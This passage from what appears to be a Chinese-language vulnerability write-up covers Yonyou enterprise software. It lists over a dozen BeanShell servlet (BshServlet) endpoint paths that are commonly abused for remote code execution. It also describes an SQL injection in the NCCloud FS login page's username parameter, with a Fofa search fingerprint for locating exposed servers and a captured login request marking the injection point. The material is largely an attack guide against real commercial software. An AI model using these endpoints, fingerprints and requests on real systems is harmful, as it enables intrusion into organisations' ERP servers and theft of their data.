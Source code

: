 ```
http://x.x.x.x/service/~so4/bsh.servlet.BshServlet
http://x.x.x.x/service/~so5/bsh.servlet.BshServlet
http://x.x.x.x/service/~so6/bsh.servlet.BshServlet
http://x.x.x.x/service/~tam/bsh.servlet.BshServlet
http://x.x.x.x/service/~tbb/bsh.servlet.BshServlet
http://x.x.x.x/service/~to/bsh.servlet.BshServlet
http://x.x.x.x/service/~uap/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapbd/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapde/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapeai/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapother/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapqe/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapweb/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapws/bsh.servlet.BshServlet
http://x.x.x.x/service/~vrm/bsh.servlet.BshServlet
http://x.x.x.x/service/~yer/bsh.servlet.BshServlet
```

![image-20220420113613160](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420113613160.png)

### 3.3 用友 `NCCloud FS` 文件管理 `SQL` 注入

用友 `NCCloud FS` 文件管理登录页面对用户名参数没有过滤，存在 `SQL` 注入。

Fofa:

```
"/platform/yonyou-yyy.js"
```

`nccloud` 登录界面：

![image-20220420125901020](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420125901020.png)

文件服务器管理登录页面：

```
http://x.x.x.x/fs/
```

![image-20220420130019063](https://fastly.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420130019063.png)

`username`参数存在注入，抓取登录数据包：

```http
GET /fs/console?username=1&password=00PGRLxSTe3VroI21qJNymCrZfPX1UQ4ij0gIWn2Gc4%3D HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://x.x.x.x/fs/
Cookie: JSESSIONID=FFAE8EF48BD3BEF7E94B5449B8F9BA90.server
Upgrade-Insecure-Requests: 1	
```
